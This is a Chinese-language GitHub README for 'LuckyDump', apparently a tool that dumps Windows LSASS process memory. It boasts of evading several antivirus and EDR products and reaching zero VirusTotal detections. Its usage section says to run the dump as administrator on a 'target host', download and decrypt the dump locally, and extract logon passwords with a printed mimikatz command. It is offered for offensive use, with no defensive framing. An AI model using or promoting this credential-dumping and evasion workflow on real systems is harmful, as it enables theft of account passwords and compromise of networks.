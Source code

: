 # LuckyDump
自行编译  
工具详细说明：https://mp.weixin.qq.com/s/AuOfu3RwPtqF9toYsYUVRA  
截止 2025.3.19 已测 360 核晶 火绒 defender macfee ESET  
静态免杀性：去除掉延迟函数可以达到vt0杀，但是动态行为会被一些edr拦截，静态这几个也无关痛痒（猎鹰静态过了动态也dump不了） 
![image](https://github.com/user-attachments/assets/d0dcc19f-759b-4467-af5d-0e4ee175cf7c)  
![image](https://github.com/user-attachments/assets/659cc904-7aa1-4bc0-850c-00262635589d) 


使用方法：
在目标主机管理员权限执行dump go： 

![image](https://github.com/user-attachments/assets/6c3d0f8d-97ea-4a7a-99f2-7fd741ef49a9)  

下载到本机使用py脚本解密文件： 
![image](https://github.com/user-attachments/assets/816b6feb-890a-4b34-8422-076df156baec)  
mimikatz提取密码

mimikatz "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit  
![image](https://github.com/user-attachments/assets/b0d5d64a-b420-4adf-9bef-37583848d55f) 
 
